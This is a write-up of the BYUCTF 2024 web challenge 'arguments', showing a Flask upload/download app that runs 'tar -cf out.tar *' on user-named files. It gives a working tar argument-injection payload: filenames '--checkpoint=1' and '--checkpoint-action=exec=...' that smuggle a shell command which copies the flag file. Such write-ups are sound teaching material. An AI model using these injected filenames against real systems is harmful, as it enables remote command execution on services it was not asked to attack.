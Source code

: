```yaml
---
layout: post
title: BYUCTF 2024 | arguments-writeup
date: 2024-05-23
tags: ['BYUCTF24']
---
```


# web/arguments-writeup

## Challenge Description

We are given a website that basically perform 2 tasks:

- Uploading files
- Downloading the tar of all uploaded files

the source code of both these functionalities are as given:
```python
# upload file
@app.route('/api/upload', methods=['POST'])
def upload():
    file = request.files.get('file', None)
    if file is None:
        return 'No file provided', 400
    
    # check for path traversal
    if '..' in file.filename or '/' in file.filename:
        return 'Invalid file name', 400
    
    # check file size
    if len(file.read()) > 1000:
        return 'File too large', 400
    
    file.save(f'uploads/{g.uuid}/{file.filename}')
    return 'Success! <script>setTimeout(function() {window.location="/"}, 3000)</script>', 200


# download file
@app.route('/api/download', methods=['GET'])
def download():
    @after_this_request
    def remove_file(response):
        os.system(f"rm -rf uploads/{g.uuid}/out.tar")
        return response

    # make a tar of all files
    os.system(f"cd uploads/{g.uuid}/ && tar -cf out.tar *")

    # send tar to user
    return send_file(f"uploads/{g.uuid}/out.tar", as_attachment=True, download_name='download.tar', mimetype='application/octet-stream')

```

## Solution

We tried fuzzing with the filename parameter and zip slips to read server files but with no success. Also, only been able to read server files would have been a waste because we didn't knew the name of the flag as it was randomized ( in Dockerfile):

```Dockerfile
RUN mv /flag.txt /flag_$(cat /dev/urandom | tr -dc a-f0-9 | fold -w32 | head -n1)
```

So what we actually needed was RCE. Learning about various vulnerabilities that could give us RCE, we discovered that the command
```python
os.system(f"cd uploads/{g.uuid}/ && tar -cf out.tar *")
```
was actually vulnerable to `TAR Command Execution`, which could give us RCE.
Upon learning about the `TAR Command Execution`, we found out that 

 `By using tar with –checkpoint-action options, a specified action can be used after a checkpoint`. 
 
![Image 1](./assets/arg1.png)

 Upon looking for payloads, we found this on PayloadOfAllThings:
 
 ```
 --checkpoint=1
--checkpoint-action=exec=sh shell.sh
shell.sh   (your exploit code is here)
```

After that we tried uploading files with these name 
`--checkpoint-action=exec=python3 -c "import os;x = chr(47);os.system(f'cp {x}flag* .')"` and `--checkpoint=1`. It should have basically copied the flag to this current directory when  `tar * ` command is run, but this resulted in internal server error. 

The error didn't occured when we uploaded an arbitriary file before these files. After we hit the download button we recieved only the arbitriary file we uploaded. But after refreshing the page, file listing showed an additional file named `flag_89bb6db3a579141b2cd5c7d01fedf863` 
.

![](./assets/arg2.png)


After downloading the tar again and reading the `flag_89bb6db3a579141b2cd5c7d01fedf863` file, we get the flag:



`byuctf{argument_injection_stumped_me_the_most_at_D3FC0N_last_year}`